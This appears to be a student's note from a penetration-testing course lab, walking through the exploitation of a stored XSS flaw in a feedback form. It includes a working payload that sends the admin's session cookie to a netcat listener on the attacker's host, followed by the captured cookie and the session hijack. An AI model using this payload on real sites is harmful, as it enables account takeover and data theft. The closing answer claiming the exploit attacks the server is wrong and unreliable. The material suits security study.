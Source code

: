 9.4.2.5

# 9.4.2.5

## 9.4.2.5.1. Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.

Browse the main page
http://192.168.214.10/
![867e2073ee5b919aacf7280956cd244e.png](:/277acf66ae584499b4193956c7c89fa3)

There is a stored XSS vulnerability on
http://192.168.214.10/feedback.php. Enter in special characters in the Comment form section `hello";<>`
![5f1cf16f998786d78367913c767cd9a7.png](:/b1986eb18b1b494e92d8f350271dae0e)

Check the browser output plus the inspector tool. It did not encode the special characters
![5d57674bec10851b547d13e70e938123.png](:/68794e865e5f4791887cf2bc2ee17dad)

The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

### Stealing the cookie
Open a netcat listener on port 80 on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
```

Create an XSS payload so we can steal the PHPSESSID. The XSS payload is as follows:
`<script>new Image().src="http://192.168.119.214/cool.jpg?output="+document.cookie;</script>`

Submit the XSS payload into the feedback form
![766551bcca36410417c7f9d56bc67005.png](:/3cc92b6d82cc4fadad80b9d3aa03927a)

Now go to the Windows machine, and run admin_login.ps1. This will trigger the XSS payload.
```plaintext
C:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File admin_login.ps1 
```
![c8226295680d7eaddfc1185e058bb8ee.png](:/fecd6e85fa0c4b9e8f47faebf8c9d40f)

**GOTCHA** A pop-up window may appear regarding opening Internet Explorer 11 with Windows Defender. DO NOT use recommended settings!
![fae8de70e8f7adb7a71b6cac54d088e2.png](:/72a9922139c646faada61c32aff3b85f)

Observe we now have a cookie PHPSESSID=0f2rkmije29p3vhahp6m654r6c
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 49616
GET /cool.jpg?output=PHPSESSID=0f2rkmije29p3vhahp6m654r6c HTTP/1.1
Accept: image/png, image/svg+xml, image/jxr, image/*;q=0.8, */*;q=0.5
Referer: http://127.0.0.1/admin.php
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: 192.168.119.214
Connection: Keep-Alive
```

Set the cookie in our browser
![IMG_2434.JPG](:/dfee040fdde64d3fbfd89cf65dd2e947)


Browse to http://192.168.214.10/admin.php. We are in without a password!
![45406bb36c0ad713b354e0440d8546eb.png](:/bd77ca1c834e45cb8d926e4b0f36c348)


## 9.4.2.5.2. Consider what other ways an XSS vulnerability in this application might be used for attacks.
Remote code execution using reverse shells

## 9.4.2.5.3. Does this exploit attack the server or clients of the site?
It attacks the server side


id: 59dc0462a9bb425b9cafe23af7c7f5f3
parent_id: 0cd551955ef24738847b605bc1db5ab0
created_time: 2020-10-02T21:16:00.422Z
updated_time: 2020-10-02T21:16:01.880Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:16:00.422Z
user_updated_time: 2020-10-02T21:16:01.880Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1